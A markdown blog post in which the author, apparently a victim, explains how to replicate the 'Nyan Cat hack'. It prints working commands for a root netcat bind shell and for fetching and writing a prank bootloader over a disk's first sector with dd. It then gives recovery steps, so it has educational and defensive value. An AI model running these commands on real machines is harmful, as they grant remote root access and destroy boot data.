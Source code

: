 ```yaml
---
layout: post
title: Nyan Cat Hack - How To
---
```


A writeup of how the Nyan Cat hack works.

<center>
<img src="/assets/nyan.png" alt="nyan" width="200"/>
</center>

After the <a href="/2012/10/01/nyan_story.html">Nyan Cat Hack</a>, I wanted to learn how it was executed to get a better idea of what happened so that I could protect myself. This post is a simple description of how to replicate the hack. This is divided into two parts, the backdoor and the bootloader. Disclaimer: this is meant for education only. Do not illegally hack into other machines.

## The Backdoor

CowCli, the malicious binary, had a simple set of NetCat commands embedded within it that allowed terminal access into the victim’s machine. When CowCli is run, it behaves as intended along with executing the following code on the victim’s computer: This code can be executed stand alone from the command line.

```
sudo rm /etc/alternatives/nc && sudo ln -s /bin/nc.traditional /etc/alternatives/nc
sudo nc -l -p 40 -e /bin/sh 
```

The first command here is replacing the default NetCat with nc.traditional. This command might be optional, though was necessary for me to replicate the attack. Note that on OpenBSD machines, nc.openbsd should be used in place of nc.traditional. The second command is the true backdoor. This tells the victim’s machine to listen for traffic on port 40 and return a shell to the first connection to that port. The returned shell will have privileges equal to that of the NetCat process, so executing the second command with sudo will return a root shell.

Once the above commands have been run on the victim’s machine, the attacker can execute this bit of code:

`nc {victim's local IP address} 40`

This will simply connect to the port that the previous NetCat commands opened. Once executed, you will be able to use the connection as an interactive shell into the victim’s computer. This most likely will only work over a local network. To perform this attack on a remote user, that user’s router would need to be reconfigured so that port 40 traffic is directed to the target machine.

## The Bootloader

Once you have root access to a remote computer, you can do anything you want with it. My attacker chose to overwrite my bootloader with his own bootloader code. The bootloader is a small piece of code that the BIOS executes to boot into an operating system. I recommend that if you wish to replicate this attack, to do so in a virtual machine. This attack uses the dd command, and a mistake here can result in lost data or lock you out of your machine.

To overwrite the bootloader of the victim’s machine with Nyan Cat, follow these steps from the victims machine.

```
wget https://minemu.org/nyanmbr/nyan.mbr
dd if=nyan.mbr of=/dev/sda
```

The first command here is retrieving the Nyan Cat bootloader. The second command is overwriting the first sector of the primary device. The first sector is where the BIOS looks to load an operating system. This command is essentially saying to replace the first X bits of the hard disk with nyan.mbr, where X is the length of nyan.mbr in bits. if=input file, of=output file.

Now, give the machine a restart and check out how it behaves!!

To recover the bootloader, continue on. The first thing we need to do is boot from a LiveCD. For Ubuntu, this is as simple as popping in the disk or .iso file used to install the machine. Reboot the victim’s machine, press the key to open the BIOS menu, and find the option that lets you boot from the CD rom drive. You can either boot into the operating system directly off the CD or sometimes there’s an option to load up a terminal without booting all the way into the OS. Either way, get to a terminal window and follow the rest of the instructions. I learned the next steps here.

```
mkdir /mnt/myroot
sudo mount /dev/sda1 /mnt/myroot
sudo mount --bind /dev /mnt/myroot/dev
sudo mount --bind /proc /mnt/myroot/proc
sudo mount --bind  /sys /mnt/myroot/sys
sudo chroot /mnt/myroot
sudo grub-install /dev/sda
```

These steps are recreating a clean root in your machine. Steps 3,4,5 are copying the LiveCD’s dev, proc, and sys data into a new root. The chroot command locks the user into /mnt/myroot, such that from the user’s perspective /mnt/myroot becomes the root of the file system. Finally, grub-install replaces the nyan bootloader with the grub bootloader, the stock Ubuntu bootloader. After executing these commands, issue another restart on the machine and make sure you boot from disk (instead of the LiveCD again). If performed correctly, this should boot you back into your operating system, with all your data in tact.

Happy hacking!


